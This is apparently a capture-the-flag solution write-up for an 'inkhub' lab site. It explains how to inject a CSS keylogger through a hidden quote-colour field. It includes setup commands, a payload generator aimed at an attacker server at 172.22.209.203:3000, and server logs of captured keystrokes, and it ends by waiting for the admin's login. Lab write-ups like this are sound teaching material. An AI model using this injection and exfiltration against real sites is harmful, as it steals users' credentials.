


# Solution

A provided PoC is placed in [./css-keylogger](./css-keylogger). Here's a quick boiler-plate set of commands to set things up.

```
cd ./css-keylogger
python -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

Now follow these instructions:

- Generate css keylogger payload using the helper script `make-css-keylogger.py` providing the endpoint for your keylogger server (keep reading, it will make sense)

    ```
    python make-css-keylogger.py http://172.22.209.203:3000
    ```

- The above command should create two files: `keylogger.css` and `injection-string.txt`. The `injection-string.txt` 
is a wrapper injection string around the content of `keylogger.css`.

- Goto the inkhub website, login as `user`, and open the share-quote modal.
  1. Fill the quote text with an _inspiring quote_ "Pwned by css. Pwned by css. Pwned by css. Pwned by css.".
  2. Unhide the `new-quote-color` field.
  3. Copy and paste the content of `injection-string.txt` into the `new-quote-color` field, and submit.
  
  
- Confirm that the injection went through by checking `styles.css`
  

- Start the keylogger `server.py` to capture logged keystrokes (you can test it locally).
    ```
    python server.py
    ``` 
- The output looks like this when keystrokes are captured.
    ```
     * Serving Flask app 'server'
     * Debug mode: off
    WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
     * Running on all addresses (0.0.0.0)
     * Running on http://127.0.0.1:3000
     * Running on http://172.22.209.203:3000
    Press CTRL+C to quit
    Received 'key' value: s
    172.22.208.1 - - [17/Nov/2024 02:47:52] "GET /?key=s HTTP/1.1" 200 -
    Received 'key' value: e
    172.22.208.1 - - [17/Nov/2024 02:47:52] "GET /?key=e HTTP/1.1" 200 -
    Received 'key' value: r
    172.22.208.1 - - [17/Nov/2024 02:47:52] "GET /?key=r HTTP/1.1" 200 -
    Received 'key' value: u
    172.22.208.1 - - [17/Nov/2024 02:47:53] "GET /?key=u HTTP/1.1" 200 -
    ```
- All keystrokes will be saved to `keystrokes.txt`. Now wait for the admin to login... 
    ```
    watch cat keystrokes.txt
    ```
